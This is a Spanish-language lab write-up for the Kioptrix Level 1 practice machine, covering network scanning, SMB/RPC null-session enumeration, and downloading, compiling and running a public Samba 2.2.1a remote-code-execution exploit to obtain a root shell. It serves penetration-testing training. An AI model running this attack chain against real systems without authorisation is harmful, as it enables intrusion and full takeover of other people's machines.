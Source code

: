 # Kioptrix Level 1 - Write-Up

## Enumeración

>Realizaremos un descubrimiento mediante el protocolo ARP para encontrar la dirección IP de la máquina víctima:

```bash
arp-scan -I eth0 --localnet --ignoredups
```
| Parámetro    | Utilidad                                           |
| ------------ | -------------------------------------------------- |
| -I           | Elegir la interfaz en la que realizar el barrido.  |
| --localnet   | Realizar el barrido en la red local.               |
| --ignoredups | Ignorar posibles duplicados a la hora del barrido. |

![Pasted image 20240729231008](https://github.com/user-attachments/assets/12c86fdd-ab14-4c4a-b28e-8bfd40a3185e)

>Posteriormente realizaremos un escaneo de puertos para obtener los puertos abiertos de la máquina víctima:

```bash
nmap -p- --open --min-rate 5000 -sS -vvv -Pn -n IP
```

| Parámetro    | Utilidad                                           |
| ------------ | -------------------------------------------------- |
| -p-           | Escanear todos los puertos de la máquina (65535).  |
| --open   | Mostrar en el resultado solo los puertos abiertos.               |
| --min-rate | Solo enviar paquetes que vayan a una velocidad de x paquetes por segundo. | 
|-sS | Realizar un stealth scan que no concluye el three-way handshake del protocolo TCP enviando un RST en lugar de un ACK. (Agiliza el escaneo)
-vvv | Muestra muy detalladamente el resultado del comando.
-Pn | Dejamos de usar el protocolo de resolución de direcciones ARP para el escaneo. (Agiliza el escaneo)
-n | Dejamos de usar el servicio DNS para resolver la dirección. (Agiliza el escaneo)

![Pasted image 20240729231158](https://github.com/user-attachments/assets/42e781ce-c0ce-4abf-9919-7e843dfa56ab)

> Haremos un escaneo de puertos con scripts de reconocimiento y versión para obtener más información acerca de los servicios que están corriendo en la máquina:

```bash
nmap -p22,80,111,139,443,1024 -sCV -Pn -n -vvv IP
```

| Parámetro    | Utilidad                                           |
| ------------ | -------------------------------------------------- |
| -px           | Escanea solo los puertos o el rango especificado en lugar de la x.  |
| -sCV   | Realizar un escaneo de versión y usar scripts de reconocimiento propios de la utilidad.               |


>Como el puerto 139 está corriendo samba trataremos de enumerar el NBT.

**NetBIOS over TCP/IP** (NBT) permite que aplicaciones basadas en NetBIOS se comuniquen sobre redes TCP/IP. Este protocolo utiliza el puerto TCP 139 para gestionar sesiones NetBIOS, facilitando la conexión y comunicación entre equipos en una red local.

**Samba** es un software libre que implementa el protocolo SMB/CIFS, permitiendo la compartición de archivos e impresoras entre sistemas Unix/Linux y Windows. Samba facilita la interoperabilidad en redes mixtas, soportando tanto NBT (a través del puerto TCP 139) como SMB directamente sobre TCP/IP (a través del puerto TCP 445).

```bash
nbtscan IP
```

![Pasted image 20240729231616](https://github.com/user-attachments/assets/68d25bc1-b1aa-45a0-a100-6dcb4562c634)

> Ahora trataremos de loggearnos en el rpc mediante una NULL session la cual resulta ser válida en esta máquina.

**RPC** (Remote Procedure Call) es un protocolo que permite a un programa ejecutar procedimientos o subrutinas en otro programa, localizado en una máquina remota, como si estuvieran ejecutándose localmente. Es una técnica esencial en la comunicación entre diferentes sistemas en una red, facilitando la interoperabilidad y distribución de tareas en aplicaciones distribuidas.

```bash
rpcclient -U "" IP
```



| Parámetro    | Utilidad                                           |
| ------------ | -------------------------------------------------- |
| -U           | Elegir el nombre de usuario que emplearemos para loggearnos. Si está vacío se tratará de una NULL session. |

![Pasted image 20240729231908](https://github.com/user-attachments/assets/51842771-ee33-452b-bcd0-7fa27aff9c02)

> También podemos hacer uso de la herramienta enum4linux para obtener una mayor información acerca de la máquina víctima:

```bash
enum4linux IP
```

## Explotación

>Como la versión de samba que está corriendo es una vulnerable, trataremos de buscar un exploit para esta, la versión la obtuvimos con el último comando realizado:

```bash
searchsploit "Samba 2.2.1a"
```

![Pasted image 20240729232519](https://github.com/user-attachments/assets/a30e297b-d430-42f8-998c-b70b1f08ecdc)

> Ahora trataremos de emplear el siguiente exploit que permite realizar una RCE (Remote Code Execution), por lo que tendremos que obtenerlo mediante el siguiente comando:

```bash
searchsploit -m multiple/remote/10.c
```



| Parámetro    | Utilidad                                           |
| ------------ | -------------------------------------------------- |
| -m           | Elegir la ruta del exploit que quieres descargar de exploitDB.  |

![Pasted image 20240729232715](https://github.com/user-attachments/assets/c564aa3a-69cb-45a9-8af1-126314e12fcd)

> Ahora procederemos a compilarlo y darle permisos de ejecución:

```bash
gcc 10.c -o exploit
```

| Parámetro    | Utilidad                                           |
| ------------ | -------------------------------------------------- |
| -o           | Elegir el nombre y ubicación del script compilado.  |

```bash
chmod +x exploit
```

| Parámetro    | Utilidad                                           |
| ------------ | -------------------------------------------------- |
| +x           | Permite brindar al binario de permisos de ejecución.  |


![Pasted image 20240729232858](https://github.com/user-attachments/assets/7d58d1af-00c8-4a14-8527-499e910f959f)

> Ahora emplearemos el binario siguiendo el uso recomendado por el creador con los parámetros que veamos convenientes y ganaremos acceso como root en la máquina víctima:

```bash
./exploit -v -p 139 -b 0 IP
```

| Parámetro    | Utilidad                                           |
| ------------ | -------------------------------------------------- |
| -v           | Permite ver el resultado y la ejecución de forma detallada.  |
-p | Permite elegir el puerto sobre el que se usará el exploit.
-b | Permite seleccionar que distribución de SO (Sistema Operativo) está empleando la máquina víctima.

![Pasted image 20240729233227](https://github.com/user-attachments/assets/f79bdcfa-5988-42ae-8984-848dc6fad9f6)
![Pasted image 20240729233401](https://github.com/user-attachments/assets/28f58066-3c2c-4991-af63-f63564a4202e)

> Una vez hecho esto, ya estaría comprometida la máquina. Al haber obtenido directamente una shell como el usuario root no necesitariamos realizar una escalada de privilegios.
